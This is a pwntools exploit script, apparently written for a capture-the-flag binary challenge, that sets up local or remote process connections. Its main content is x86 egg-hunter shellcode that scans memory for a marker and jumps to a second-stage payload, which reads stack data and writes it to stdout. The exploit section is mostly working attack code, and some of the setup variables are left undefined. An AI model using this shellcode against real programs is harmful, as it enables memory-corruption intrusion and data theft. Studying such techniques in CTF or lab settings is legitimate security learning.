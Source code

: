 ```
# Many built-in settings can be controlled on the command-line and show up
# in "args".  For example, to dump all data sent/received, and disable ASLR
# for all created processes...
# ./exploit.py DEBUG NOASLR


def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.GDB:
        return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe] + argv, *a, **kw)

# Specify your GDB script here for debugging
# GDB will be launched if the exploit is run via e.g.
# ./exploit.py GDB
gdbscript = '''
continue
'''.format(**locals())

if args.REMOTE:
    global_timeout = 3
    p = remote(REMOTE, REMOTEPORT)
else:
    global_timeout = 0.5
    p = process(PROGNAME)
    p = start()
#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================
small_assembly = """
_start:
mov edx, 0x4f904790
loop:
inc eax
cmp dword ptr [eax], edx
jne loop
jmp eax
"""

large_assembly = """
nop
inc edi
nop
dec edi
xor ecx, ecx
mul ecx

sub esp, 400
mov ecx, esp
mov ebx, 1000
mov eax, 0x3
mov edx, 0xFF
int 0x80

mov eax, 0x4
mov ebx, 0x1
int 0x80

mov eax, 0x1
int 0x80
"""

```